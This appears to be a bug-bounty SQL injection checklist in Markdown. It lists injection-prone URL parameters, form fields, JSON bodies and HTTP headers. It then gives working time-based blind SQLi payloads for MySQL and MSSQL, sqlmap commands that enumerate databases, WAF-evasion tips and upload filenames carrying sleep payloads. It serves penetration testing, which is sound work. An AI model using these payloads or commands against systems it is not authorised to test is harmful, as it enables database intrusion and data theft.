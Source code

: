 
## Systematic testing of injection-prone parameters and behaviors

---

## URL & Query Parameters
- [ ] ID parameters (e.g., `/user?id=1`)
- [ ] Numeric values in search queries (`/search?price=100`)
- [ ] String parameters (e.g., `/profile?username=admin`)
- [ ] Category or tag filters (`/products?cat=electronics`)
- [ ] Pagination offsets (`/page?page=2`)
- [ ] Sort parameters (`/sort=asc` / `desc`)
- [ ] Boolean toggles (`?active=true`)
- [ ] Nested or array-like parameters (`user[role]=admin`)
- [ ] JSON key-value strings in GET parameters
- [ ] Language or locale parameters (`lang=en`)

---

## Authentication & Authorization
- [ ] Login username field
- [ ] Login password field
- [ ] Hidden login fields (e.g., token, redirect)
- [ ] Signup form fields (email, username)
- [ ] "Forgot password" email field
- [ ] Password reset token verification
- [ ] MFA/OTP code inputs
- [ ] Session/token revocation endpoints
- [ ] OAuth callback parameters (e.g., `code=`, `state=`)
- [ ] SSO token and email claims (for federated logins)

---

## POST Body Injection Points
- [ ] JSON body values (`{"user":"admin"}`)
- [ ] Nested JSON objects (`{"user":{"id":"1"}}`)
- [ ] Array JSON payloads (`[{"id":"1"}]`)
- [ ] Form-data field values (`application/x-www-form-urlencoded`)
- [ ] Hidden form fields (`<input type="hidden" value="123">`)
- [ ] User profile update fields (first name, last name, bio)
- [ ] File upload metadata (filename, MIME type)
- [ ] Feedback or contact form inputs
- [ ] Mobile API POST data (especially in Flutter/ReactNative apps)
- [ ] GraphQL query variables (`{ id: "1" }`)

---

## HTTP Headers (31–40)
- [ ] `X-User-ID` or custom user headers
- [ ] `X-Forwarded-For` (when used internally)
- [ ] `Referer` (if used in SQL logs/audit)
- [ ] `User-Agent` (in logging/auditing SQL queries)
- [ ] `X-Real-IP` (used in access control logic)
- [ ] `Host` header (if stored or verified in DB)
- [ ] `Authorization` header (JWT or token value)
- [ ] `Cookie` values (auth/session/user IDs)
- [ ] `X-Custom-Token` headers
- [ ] `Origin` or `Client-IP` headers

---

## Navigation, Search, and Filtering
- [ ] Search boxes (text search, site search, product search)
- [ ] Filter inputs (price, rating, location)
- [ ] Autocomplete inputs (AJAX/JS-based)
- [ ] Data export inputs (CSV, Excel)
- [ ] Report generation inputs (e.g., analytics ranges)
- [ ] Tag/label selection
- [ ] Navigation paths like `/product/view/123`
- [ ] Breadcrumbs or breadcrumbs data in DB
- [ ] URL slug fields (`/blog/my-post-title`)
- [ ] Referring user/campaign IDs (`?ref=12345`)

---

## Bonus: Testing Patterns
- [ ] Confirm presence of SQLi via time-based payloads (`SLEEP()`, `pg_sleep()`)
- [ ] Test with `' or 1=1--`, `'||'a'='a`
- [ ] Use logical tests (`' and 1=2 --`, `' and 1=1 --`)
- [ ] Observe errors (DB-specific error messages, stack traces)
- [ ] Blind SQLi techniques via response difference

---

## Notes:
- Always test with multiple payloads across DBMS (MySQL, PostgreSQL, Oracle, MSSQL)
- Combine with automated tools (e.g., `sqlmap`) for validation after manual discovery
- Use Burp Suite's Repeater/Intruder to test headers and JSON bodies
- Record insertion point observations for reuse during recon/automation

---

## How to find SQL injectiosn vulnerability?

## 1) Logical Operation
One of the best ways to confirm a SQL injection is by making it operate a logical operation and having the expected results.
For example: if the GET parameter `?username=Peter` returns the same content as `?username=Peter'` or `?username=Peter+'1'='1` then, you found a SQL injection.

## 2) Time Based SQL Injection
Most relative place for inject SQL payloads as [POST Request] are in Login page (username parameter), Forget password page (username parameter), Singup Page (firstname and last name) 


Payloads:
```
orwa' AND (SELECT 6377 FROM (SELECT(SLEEP(5)))hLTl)--
(SlEeP%09(14-(5-2)))
')) or sleep(5)=' 
' WAITFOR DELAY '0:0:5'-- 
;waitfor delay '0:0:5'-- 
);waitfor delay '0:0:5'-- 
';waitfor delay '0:0:5'-- 
";waitfor delay '0:0:5'-- 
');waitfor delay '0:0:5'-- 
");waitfor delay '0:0:5'-- 
));waitfor delay '0:0:5'-- 
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z
0"XOR(if(now()=sysdate(),sleep(12),0))XOR"Z%20=%3E
0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z
```

![image](https://user-images.githubusercontent.com/63053441/155585150-722a2ec2-787d-42bd-85d7-30c6401f8031.png)

### How To Test?

 1) Use this [wordlist](https://raw.githubusercontent.com/0xmaximus/Galaxy-Bugbounty-Checklist/main/SQL%20injection/SQL.txt) with intruder and inject all payloads in relative parameters and headers(User-Agent, Cookies, Referer, x-requested-with and ...)  
 2) After you got DELAY, save request in txt file and use sqlmap for confirm and exploit vulnerability

```
sqlmap -r request.txt -p parameter-name --force-ssl --level 5 --risk 3  --dbs --hostname --current-user
sqlmap -r txt -p user --force-ssl --level 5 --risk 3
sqlmap -r request.txt -p email/username --force-ssl -level 5 --risk 3 --dbms="MySQL" --test-filter="MySQL >= 5.0.12 AND time-based blind (query SLEEP)"
```

Sometimes you cant exploits because most modern web apps use WAF & user input validation before execute it so you can try with:
- change request form POST to GET or in reverse
- Use `--random-agent`


## 3) File Uploaders SQLi
Save file with this names and upload it in site
```
--sleep(15).png
--sleep(6*3).png
--sleep(25).png
--sleep(5*7).png
pic.png;waitfor delay '0:0:5'-- 
```


Refrence:

https://twitter.com/GodfatherOrwa
